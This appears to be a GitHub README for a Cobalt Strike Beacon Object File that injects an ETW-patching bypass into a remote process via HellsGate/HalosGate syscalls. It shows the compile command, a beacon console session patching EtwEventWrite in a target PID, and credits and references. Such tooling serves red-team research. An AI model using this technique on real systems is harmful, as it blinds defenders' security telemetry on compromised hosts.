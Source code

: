 ## Cobalt Strike BOF - Inject ETW Bypass
Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)

#### Running InjectEtwBypass BOF from CobaltStrike to Bypass ETW in Notepad.exe
  ![](images/injectEtw.png)

### Compile with x64 MinGW:
```bash
cat compile.sh
x86_64-w64-mingw32-gcc -m64 -mwindows -c injectEtwBypass.c -o injectEtwBypass.o -masm=intel -Wall -fno-asynchronous-unwind-tables -nostdlib -fno-ident -Wl,-Tlinker.ld,--no-seh
bash compile.sh
```

### Run from Cobalt Strike Beacon Console
```bash
beacon> help
    injectEtwBypass           Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)
beacon> help injectEtwBypass
Synopsis: injectEtwBypass PID
beacon> injectEtwBypass 8968
[*] Inject ETW Bypass (Bobby Cooke//SpiderLabs|@0xBoku|github.com/boku7)
[+] host called home, sent: 2336 bytes
[+] received output:
Injecting NTDLL.EtwEventWrite bypass in remote process: 8968 (PID)
```

## Credits / References
### ETW Bypass Massive Credits to [Adam Chester (@\_xpn\_) of TrustedSec](https://twitter.com/_xpn_) 
+ [@\_xpn\_ Hiding Your .NET – ETW](https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/)
+ [ajpc500/BOFs](https://github.com/ajpc500/BOFs/)
+ [Offensive Security OSEP](https://www.offensive-security.com/pen300-osep/)
### HalosGate SysCaller
+ Reenz0h from @SEKTOR7net
  + Most of the C techniques I use are from Reenz0h's awesome courses and blogs 
  + Best classes for malware development out there.
  + Creator of the halos gate technique. His work was the motivation for this work.
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ @smelly__vx & @am0nsec ( Creators/Publishers of the Hells Gate technique )
  + Could not have made my implementation of HellsGate without them :)
  + Awesome work on this method, really enjoyed working through it myself. Thank you!
  + https://github.com/am0nsec/HellsGate 
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### BOF Helpers
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
### Great Resource for learning Intel ASM
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)
### Implementing ASM in C Code with GCC
+ [Outflank - Direct Syscalls in Beacon Object Files](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)
+ https://www.cs.uaf.edu/2011/fall/cs301/lecture/10_12_asm_c.html
+ http://gcc.gnu.org/onlinedocs/gcc-4.0.2/gcc/Extended-Asm.html#Extended-Asm
